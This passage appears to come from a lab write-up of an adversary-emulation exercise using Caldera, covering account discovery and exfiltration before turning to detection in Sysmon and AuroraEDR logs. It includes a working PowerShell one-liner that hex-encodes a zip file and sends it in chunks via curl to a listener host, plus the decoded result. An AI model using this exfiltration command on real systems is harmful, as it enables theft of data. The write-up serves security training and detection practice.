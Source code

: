 Four accounts were identified: (Administrator, DefaultAccount, Guest, WDAGUtilityAccount)

**Collection**: Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol (T1048.003)

<img width="1119" height="273" alt="image" src="https://github.com/user-attachments/assets/279f165c-9d4b-4763-9c62-55088c53f31a" />

**Efiltration**: For the last ability, it didn't run till I modified it from the **adversary profile** and changed the executor to **psh** 

<img width="570" height="312" alt="image" src="https://github.com/user-attachments/assets/965a8333-10fd-4d92-8fc3-364c839a55de" />

```powershell

$file="$env:TEMP\exfil.zip"; $destination="http://10.10.1.65:8080/"; $bytes=[System.IO.File]::ReadAllBytes($file); $hex=($bytes|ForEach-Object ToString X2) -join ''; $split=$hex -split '(\S{20})' -ne ''; ForEach ($line in $split) { curl.exe "$destination$line" } echo "Done exfiltrating the data. Check your listener."
```

<img width="1307" height="340" alt="image" src="https://github.com/user-attachments/assets/7c118a37-50da-48f2-8373-c1e52cd7f1a6" />

<img width="1177" height="505" alt="image" src="https://github.com/user-attachments/assets/782e9888-0819-4e24-a29c-5231c1bfe57f" />

<img width="1652" height="734" alt="image" src="https://github.com/user-attachments/assets/bd741ce7-2d07-4514-95c5-2401c5850a18" />

There were 23 HTTP GET requests. If you want to decode the hex, combine all the hex values and save them to a file 

```powershell
504B03041400000008002E9B7D56A1A236FD430000005A0000001C000000446F776E6C6F6164735C73656E7369746976655F646174612E747874FBFFCF99219F218F219DA1882191A184A19421074C6782458B191419141842183280FC62200B4226027131432A583E13ACB60CC853604801EB4C64D063E065E0620000504B010214001400000008002E9B7D56A1A236FD430000005A0000001C0000000000000000000000000000000000446F776E6C6F6164735C73656E7369746976655F646174612E747874504B050600000000010001004A0000007D00000000    
```

Then decode it as a zip file

```powershell
root@ip-10-10-1-65:~/Rooms/caldera/http_server# ls
exfilterat.txt  ex.zip  PhishingAttachment.xlsm
root@ip-10-10-1-65:~/Rooms/caldera/http_server# ls
'Downloads\sensitive_data.txt'   exfilterat.txt   ex.zip   PhishingAttachment.xlsm
root@ip-10-10-1-65:~/Rooms/caldera/http_server# cat 'Downloads\sensitive_data.txt' 
\ufffd\ufffdCongratulations! This is a sensitive data.

```

## Emulation on Detection

Review the events generated by executing the emulation activity of the previous task. The logs provided are:

- Sysmon
- AuroraEDR
